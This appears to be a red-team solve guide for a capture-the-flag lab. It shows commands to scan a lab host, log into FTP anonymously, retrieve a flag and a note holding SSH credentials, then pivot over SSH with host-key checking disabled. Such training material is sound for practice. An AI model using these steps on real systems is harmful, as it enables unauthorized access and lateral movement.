









# 🔴 Red Team — M2: nova-ftpvault Solve Guide

**Challenge:** Anonymous FTP Access — Credential Exposure  
**Technique:** T1078.001 — Valid Accounts: Default Accounts  
**Entry Point:** From M1's shell, discover M2 on the DMZ, then reach FTP on port 21.

**Validated M2 address for this single-host deployment:** `10.0.2.15`

---

## Step 1 — Discover M2 from M1

From your RCE shell on M1. In this deployment, M2 was installed on the same host, so first confirm the host address and then verify FTP on the validated IP:

```bash
ip addr show
```



The active interface reports `10.0.2.15`. Scan that verified address:

```bash
nmap -n -p 21 --open 10.0.2.15 --reason -oN /tmp/m2_ftp_scan.txt
```



```bash
cat /tmp/m2_ftp_scan.txt
```



For a separate multi-host deployment, replace `10.0.2.15` with the verified M2 DMZ address before scanning.

---

## Step 2 — Anonymous FTP Login

```bash
printf 'user anonymous anonymous\nls -la\nget flag2.txt /tmp/flag2.txt\nget staff_handover.txt /tmp/staff_handover.txt\nbye\n' | ftp -inv 10.0.2.15
```





The FTP username is `anonymous`; the password can be `anonymous` (or another non-empty value, depending on the server policy).

---

## Step 3 — Read the Files

```bash
cat /tmp/flag2.txt
```



```bash
cat /tmp/staff_handover.txt
```



The handover note reveals:
```
User: devops
Pass: N0vaTech@24
Host: nova-gateway (SSH)
```

---

## Step 4 — Move to M3

```bash
# Check whether M3's SSH service is present on this host
nmap -n -p 22 --open 10.0.2.15 --reason
```



This single-host deployment exposes M3 SSH on the same verified address, so use
that address for the pivot:

```bash
ssh -o StrictHostKeyChecking=no devops@10.0.2.15
# Password: N0vaTech@24
```



---

## Flag Location
`/srv/ftp/flag2.txt`
